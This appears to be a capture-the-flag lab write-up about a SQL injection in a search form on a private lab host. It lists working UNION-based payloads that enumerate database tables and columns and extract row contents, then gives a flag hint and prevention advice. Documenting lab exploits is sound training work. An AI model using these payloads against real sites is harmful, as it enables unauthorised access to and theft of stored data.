 # The issue
Forms are not protected against SQL injection enabling us to get access to precious information

## How to reproduce it on the website?
On page http://10.13.0.53/?page=searchimg

Enter `1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables`
in order to get all the tables.

Enter `1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns` in order to get the columns of tables.

Enter `1 AND 1=2 UNION SELECT title, comment  FROM list_images` to get information of the user tables.

You can see this text and just need to apply it:
```
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

## Why is it a problem?
You can access to the content of the different tables especially to the users.


## How to avoid it?
Use a good framework that prepare accordingly the sql requests.
Be sure to escape correctly special characters. Check for the data given versus the data type expected in the database. 

